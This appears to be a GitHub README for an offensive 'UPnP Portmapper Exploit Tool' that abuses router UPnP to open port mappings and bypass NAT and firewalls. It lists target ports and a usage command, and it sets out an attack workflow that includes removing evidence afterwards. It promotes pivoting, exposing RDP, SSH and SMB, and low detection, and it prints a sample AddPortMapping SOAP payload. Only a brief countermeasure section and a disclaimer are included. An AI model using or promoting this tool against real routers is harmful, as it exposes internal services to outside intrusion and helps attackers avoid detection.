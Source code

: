 # UPnP Portmapper Exploit Tool 🔥

**A stealthy UPnP router exploitation tool for bypassing NAT/firewalls**

## 📌 Core Functionality
- **Automated UPnP exploitation** via SOAP requests
- **Multi-threaded** port scanning (8 threads)
- **Proxy-aware** (127.0.0.1:8080)
- **Self-cleaning** (removes port mappings post-scan)

## 🎯 Target Ports
```python
['21', '22', '23', '80', '443', '8080', '139', '445', '135', '3389', '110', '25', '49152']
```

⚡ Attack Vectors
Technique	SOAP Action	Risk
Port Forwarding	AddPortMapping	🔴 High
Firewall Bypass	NAT traversal via UPnP	🔥 Critical
Service Exposure	Internal → External port mapping	🎯 Medium

🛠️ Usage
```bash

python3 upnp_control.py <router_ip> <network_prefix>
# Example:
python3 upnp_control.py external_ip local_ip
```

💀 Exploit Workflow

Recon
    Identifies UPnP service on port 49152

Weaponize
    Injects port mapping rules via SOAP

Verify
    Checks if ports are externally accessible

Cleanup
    Removes evidence via DeletePortMapping

🔥 Red Team Benefits
    Internal network pivoting
    RDP/SSH/SMB exposure
    Low detection rate (legitimate UPnP traffic)

🛡️ Blue Team Countermeasures
```bash
# Disable UPnP on routers:
iptables -A INPUT -p tcp --dport 1900 -j DROP
iptables -A INPUT -p udp --dport 1900 -j DROP
```

📜 Sample SOAP Payload
```xml
<s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/">
  <s:Body>
    <u:AddPortMapping xmlns:u="urn:schemas-upnp-org:service:WANIPConnection:1">
      <NewRemoteHost>{target}</NewRemoteHost>
      <NewExternalPort>1337</NewExternalPort>
      <NewProtocol>TCP</NewProtocol>
      <NewInternalPort>22</NewInternalPort>
      <NewInternalClient>192.168.1.100</NewInternalClient>
    </u:AddPortMapping>
  </s:Body>
</s:Envelope>
```
⚠️ Warning: Use only on authorized systems. UPnP exploitation may violate security policies.
